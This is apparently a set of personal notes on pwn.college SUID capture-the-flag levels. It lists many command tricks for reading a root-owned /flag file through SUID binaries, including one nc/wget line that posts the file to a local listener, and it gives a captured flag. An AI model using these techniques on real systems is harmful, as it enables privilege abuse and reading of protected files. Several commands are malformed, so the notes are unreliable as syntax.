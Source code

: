 # Level 1/2/3/4/5/6/7/8/9 - SUID

```
> cd /challenge
> ls -al <name>
> ./babysuid_level1
> ./usr/bin/cat /flag
```

flag: `pwn.college{wnlOfJ8zdOdgVoWRP1zVwfkSYw1.QXzQTMsMTOwEzW}`

- https://www.gtk.org/setuid.html

# Level 10/11/12/13/14/15/17/18/19/20/22 - 

```
> ./rev /flag | rev
> od -An -c /flag | sed 's/ //g'
> hd /flag
> xxd /flag
> base32 /flag | base32 -d
> base64 /flag | base64 -d
> gzip flag | zcat flag.gz
> bzip2 -dc flag.bz2 
> zip /flag.zip /flag | unzip -p /flag.zip | more
> tar -czvf flag.tar.gz flag | tar - xzf flag.tar.gz -O
> echo /flag | cpio -o
> genisoimage -sort /flag /flag

```

# Level 24/25/27/28/29/30/31-48 - Using programs with SUID to execute other programs

- moving cat to mv
- Try to print flag by executing a command with error to print

```
> env cat flag
> find /flag -exec cat flag {} \;
> nice cat /flag
> timeout 100 cat /flag
> stdbuf -oL cat /flag

> setarch --list
> setarch uname26 cat /flag

> watch -x cat /flag
> socat file:/flag stdout
> whiptail --textbox /flag 10 100
> awk '{print}' /flag
> sed 's/<TEXT_TO_FINX>/<TEXT_TO_REPLACE_WITH>/' /flag
> sed 's/ajsipgh//' /flag
> ed /flag; p
> chown hacker /flag; cat /flag
> chmod +r /flag; cat /flag
> cat /flag /dev/stdout
> mv /usr/bin/cat /usr/bin/mv && /challenge/baby* && mv /flag
> perl -ne print /flag 2>/dev/null
> python; x=open('flag', 'r').read(); print(x)
> echo 'puts File.read("/flag")' > /tmp/script.rb && ruby /tmp/script.rb
> bash -p -c 'cat /flag' // execute command (-c) in priviledge mode (-p)
> date -f /flag
> dmesg -F /flag
> wc --files0-from /flag
> gcc -x c -E /flag // compile header of C file only
> as -x /flag
> wget -i /flag // not good because all in lower case
> nc -lvvnp 1234 & wget 127.0.0.1:1234 --method=POST --body-file=/flag // posting to server to pring
```

# Level 26 - SUID with makefile

```
1. create makefile in directory which we have write access
run:
    cat /flag

2. execute makefile
> make run
```

# Level 51 - 


